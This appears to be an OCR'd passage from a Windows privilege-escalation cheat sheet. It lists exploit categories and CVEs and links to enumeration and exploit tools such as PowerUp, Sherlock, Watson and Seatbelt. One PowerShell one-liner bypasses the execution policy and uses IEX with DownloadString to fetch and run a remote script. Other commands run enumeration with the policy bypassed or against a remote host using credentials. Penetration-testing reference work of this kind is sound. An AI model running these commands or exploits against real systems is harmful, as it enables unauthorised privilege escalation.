   * UsoDLLLoader
  * WerTrigger
  * WerMgr
* EoP - Privileged File Delete
* EoP - Common Vulnerabilities and Exposures
  * MS08-067 (NetAPI)
  * MS10-015 (KiTrap0D)
  * MS11-080 (adf.sys)
  * MS15-051 (Client Copy Image)
  * MS16-032
  * MS17-010 (Eternal Blue)
  * CVE-2019-1388
* EoP - $PATH Interception
* References

### Tools

*   [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)

    ```powershell
    powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
    ```
* [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
*   [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)

    ```powershell
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
    ```
* [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
*   [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

    ```powershell
    ./windows-exploit-suggester.py --update
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
    ```
* [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
* [WindowsExploits - Windows exploits, mostly precompiled. Not being updated.](https://github.com/abatchy17/WindowsExploits)
* [WindowsEnum - A Powershell Privilege Escalation Enumeration Script.](https://github.com/absolomb/WindowsEnum)
*   [Seatbelt - A C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.](https://github.com/GhostPack/Seatbelt)

    ```powershell
    Seatbelt.exe -group=all -full
    Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
    Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
    ```
* [Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs (legacy Windows) in mind](https://github.com/M4ximuss/Powerless)
*   [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
